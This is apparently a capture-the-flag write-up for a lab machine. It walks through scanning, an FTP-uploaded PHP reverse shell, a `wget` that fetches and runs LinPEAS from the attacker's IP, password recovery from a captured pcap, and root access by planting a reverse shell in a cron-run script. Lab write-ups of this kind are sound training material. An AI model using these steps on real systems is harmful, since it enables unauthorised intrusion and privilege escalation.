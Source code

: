 # Enumeration
Let's start with rustscan to quickly enumerate the open ports. We find ports 21, 22, and 80 are open.

![0b0a1393535cfb77e1684e24ed675b7b.png](./_resources/0b0a1393535cfb77e1684e24ed675b7b.png)

Let's confirm with a full nmap scan, followed by a detailed scan of the ports we found.

![14d87a19014746d192835e0eeb959193.png](./_resources/14d87a19014746d192835e0eeb959193.png)

![c7fdb42b47ebd45c60d3fa56dcbb6b6c.png](./_resources/c7fdb42b47ebd45c60d3fa56dcbb6b6c.png)

We'll begin our enumeration by investigating the ftp server. Our nmap scan already told us to expect a few files here.

![a5cdf5a9dbf42457911e23a2499f6a64.png](./_resources/a5cdf5a9dbf42457911e23a2499f6a64.png)

The two files don't lead us anywhere, but notice the `ftp` directory. If we use gobuster to enumerate the directories of the webpage, we eventually find a `files` directory which contains the files and folder we found on the ftp server.

```bash
gobuster dir -u http://10.10.62.179 -w /usr/share/dirb/wordlists/common.txt -x .txt,.html
```

![6ba35217cfd9404556cc15ce47038fe5.png](./_resources/6ba35217cfd9404556cc15ce47038fe5.png)

![f6e95a71e92c02d0eb5f408768a39593.png](./_resources/f6e95a71e92c02d0eb5f408768a39593.png)

This gives us a connection between the http and ftp servers.
<br>

# Exploitation
Let's create a [reverse shell php script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We can upload it the `/files/ftp` directory via ftp the server. 

![72d0187d945ed179cb895bbc105850d5.png](./_resources/72d0187d945ed179cb895bbc105850d5.png)

Set up a netcat listener on the chosen port. Now click on the php file on the web server to catch the reverse shell. From here we easily find the `recipe.txt` file needed for one of the Task's questions.

![2fb786ad9fd4022149988ef94fadbc9f.png](./_resources/2fb786ad9fd4022149988ef94fadbc9f.png)

![722da659380cc5ccaba12d2172d4f757.png](./_resources/722da659380cc5ccaba12d2172d4f757.png)

We can upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")'`.

Let's use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.

![9299f7445bd2df16067f66c6d071f90e.png](./_resources/9299f7445bd2df16067f66c6d071f90e.png)

Here I saved the file to the `/tmp` directory since we know we can write there. Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`.  LinPEAS finds some unexpected files in the root folder.

![a9f8fb82cf66220ed2036148bef82031.png](./_resources/a9f8fb82cf66220ed2036148bef82031.png)

Let's investigate. The only file/folder which leads us anywhere is the `/incidents` directory, since it contains a pcap file which we will want to take a look at with Wireshark.

![dde5ba4c77af8690d15e41f6894cbec5.png](./_resources/dde5ba4c77af8690d15e41f6894cbec5.png)

To transfer the pcap file to our local machine, we can put it on the ftp server and then download it from the http server at the `/files/ftp` directory.

![a06f4fbcc0fddd885252ce9826e9ae2a.png](./_resources/a06f4fbcc0fddd885252ce9826e9ae2a.png)

Let's open Wireshark and examine the pcap file. We're interested in http traffic, so right-click on any http packet and follow the http stream. Doing so reveals what appears to be an unauthorized attempt at accessing some files on the system. The relevant part for us is the following:

![2ef4ed1d1c8ed56cde5de4e35d46bf32.png](./_resources/2ef4ed1d1c8ed56cde5de4e35d46bf32.png)

So it looks like the attacker tried to determine the www-data user's sudo privileges, but didn't have the correct password. However, this gives us a possible password to work with. We try with the username lennie, since the attacker seemed to be trying to `cd` into lennie's home directory.

![647b3c00f3249cae565e5130ffbb8b08.png](./_resources/647b3c00f3249cae565e5130ffbb8b08.png)

Success! From here we can get the `user.txt` flag within lennie's home directory.

![86097ac83002c6bc9cbc2575a3fa60f0.png](./_resources/86097ac83002c6bc9cbc2575a3fa60f0.png)
<br>

# Post-Exploitation

Let's begin looking for privesc methods. First note that lennie's home directory contains a `scripts` folder. Examining the contents, we see that there is a `planner.sh` script; note that we cannot write to this script.

```bash
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cd scripts
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 7 lennie lennie 4096 Jul 29 05:35 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Jul 29 05:37 startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt 

lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

The script copies some text onto the (currently empty) `startup_list.txt` file, and then it runs another script called `print.sh`. Using `grep -rnw / -e "planner.sh" 2>/dev/null`, we can verify that the `planner.sh` script is run by cron.

```txt
lennie@startup:/etc$ grep -rnw / -e "planner.sh" 2>/dev/null
/proc/sched_debug:434:      planner.sh  4523      2486.432522         2   120         0.163993         0.987655         0.000000 0 0 /system.slice/cron.service
```

Let's now examine the `print.sh` script. Note that lennie is the owner, and so we can modify this script.

![6d451bb3716d766f31624a184c7e62b6.png](./_resources/6d451bb3716d766f31624a184c7e62b6.png)

```bash
lennie@startup:/etc$ cat print.sh
#!/bin/bash
echo "Done!"
```

We will add a line which will execute a reverse bash shell. I copied the command from [this](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) excellent list of one-liner reverse shell scripts. Our new `print.sh` file now looks like:

![07352a227f2195eebc73b79352008438.png](./_resources/07352a227f2195eebc73b79352008438.png)

Now set up a netcat listener on the chosen port. After a short while, we catch the reverse shell with root privileges. We can then read the `root.txt` flag.

![b7634263c5fce52854173097dda5e94d.png](./_resources/b7634263c5fce52854173097dda5e94d.png)